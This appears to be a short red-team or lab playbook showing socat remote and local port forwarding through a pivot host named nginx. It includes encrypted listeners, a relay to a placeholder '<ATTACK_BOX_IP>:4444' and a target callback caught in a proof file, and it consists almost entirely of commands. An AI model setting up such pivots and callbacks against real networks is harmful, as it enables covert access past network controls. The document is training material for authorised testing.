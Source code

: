 ### Remote port forwarding

Next we will start the remote socat listener.  We listen for a callback on nginx on port 2010, and then we will callback to our attack machine on an encrypted tcp port 4444.

```
[[ Socat~RemoteForward ]]*
ssh root@nginx socat -d -d tcp-listen:2010,fork,reuseaddr openssl-connect:<ATTACK_BOX_IP>:4444,cert=server.pem,cafile=server.crt,verify=0
```

Now we set up an encrypted listener on port 8888, and relay the traffic to out PROOF file.

```
[[ Socat~Listener ]]*
cd tools/socat
socat -d -u openssl-listen:4444,reuseaddr,fork,cert=server.pem,cafile=server.crt open:/tmp/PROOF,create,append
    #if this fails, probably need to kill what else is listening on port 4444
    pkill socat
```

Last, we make a call to the linux target to callback to nginx, then check our proof file to ensure we got the callback.

```
[[ Socat~Call ]]*
lsof -i tcp:4444
cat /tmp/PROOF
callMe.sh linux 80 nginx 2010 tcp
cat /tmp/PROOF
	#Now we have a callback that we caught on nginx
```

Now clean up

```
[[ Socat~Call ]]*
pkill socat
ssh root@nginx pkill socat
```

### Local port forwarding

Now we want to forward traffic from a local port so that it reaches the target

```
[[ Socat~Listener ]]
socat -d -d TCP-LISTEN:9999,fork,reuseaddr OPENSSL-CONNECT:nginx:3030,cert=server.pem,cafile=server.pem,verify=0
```


```
[[ Socat~RemoteForward ]]
ssh root@nginx socat -d -d OPENSSL-LISTEN:3030,cert=server.pem,cafile=server.crt,verify=0 tcp-connect:linux:80
```
